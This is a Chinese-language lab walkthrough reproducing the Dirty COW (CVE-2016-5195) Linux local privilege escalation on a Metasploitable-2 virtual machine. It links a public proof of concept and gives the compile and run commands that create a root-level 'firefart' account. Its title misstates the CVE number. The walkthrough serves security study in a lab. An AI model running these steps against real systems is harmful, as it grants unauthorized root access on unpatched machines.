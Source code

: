# cve-2019-5195 dirty cow漏洞复现

## 1.漏洞描述

**漏洞编号**：CVE-2016-5195

**漏洞名称**：Dirty COW

**漏洞危害**：低权限用户利用该漏洞技术可以在全版本Linux系统上实现本地提权

**影响范围**：Linux内核>=2.6.22（2007年发行）开始就受影响了，直到2016年10月18日才修复。

​         360 Vulpecker Team：Android 7.0最新的10月补丁安全级别的系统上测试过漏洞POC，确认Android受影响

## 2.实验环境

Metasploitable-2Linux下载地址：https://sourceforge.net/projects/metasploitable/

虚拟机用户名：msfadmin	密码：msfadmin

poc地址：https://github.com/FireFart/dirtycow

## 3.漏洞复现

### 3.1 将poc上传到虚拟机上

![image-20211125164613599](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211125164613599.png)

### 3.2 查看系统信息

显示当前用户信息

```bash
id
```

使用`uname -a`命令查看linux内核信息，发现在脏牛漏洞范围内，可以进行测试。

```bash
uname -a
```

![image-20211125164647825](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211125164647825.png)

### 3.3 进行提权

对dirty.c进行编译，生成一个dirty的可执行文件

```bash
cd dirtycow
gcc -pthread dirty.c -o dirty -lcrypt
```

![image-20211125164709962](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211125164709962.png)

执行`./dirty 111111("111111"是密码)命令，即可进行提权

```bash
./dirty 111111
```

![image-20211125165058249](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211125165058249.png)

使用新密码登录firefart

```bash
su firefart
输入密码：111111
id
```

![image-20211125165423312](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20211125165423312.png)

成功提权。























